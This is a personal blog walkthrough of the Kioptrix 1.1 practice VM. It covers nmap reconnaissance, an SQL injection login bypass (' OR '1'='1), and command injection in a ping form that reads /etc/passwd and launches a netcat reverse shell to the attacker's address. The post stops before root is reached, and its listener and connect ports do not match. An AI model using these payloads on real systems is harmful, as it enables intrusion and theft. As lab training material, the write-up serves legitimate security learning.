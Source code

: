 ```yaml
---
layout: post
title: Kioptrix 1.1 Walkthrough
---
```

Kioptrix level 1 is under my belt and its time to move on to the next challenge labled "Kioptrix 1.1". I use netdiscover to find the ip of the new target Kioptrix 1.1. 

![Image description](/images/kioptrix1.2.1.png)

The ip of our vulnerable virtual machine is 172.16.158.129. I needed to gather more information about the virtual machine so I used nmap to do a basic scan. 

![Image description](/images/kioptrix1.2.2.png)

Right away I noticed multiple interesting ports to explore. I decided to start with port 80 and I opened up my web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. I am greeted with a login form. 

![Image description](/images/kioptrix1.2.3.png)

I was able to get in with a simple SQL injection.

Login: Admin
Password: ' OR '1'='1

I was then brought to a form that allows you to ping a mahine on the network. I tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

I was able to display the contents of /etc/passwd for later use. However, I still needed to obtain root. I decided to see if I could obtain a shell in a similar way that I displayed /etc/passwd. I set up netcat to listen for any connects on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 5600 -e '/bin/bash' into the webform. 

![Image description](/images/kioptrix1.2.5.png)

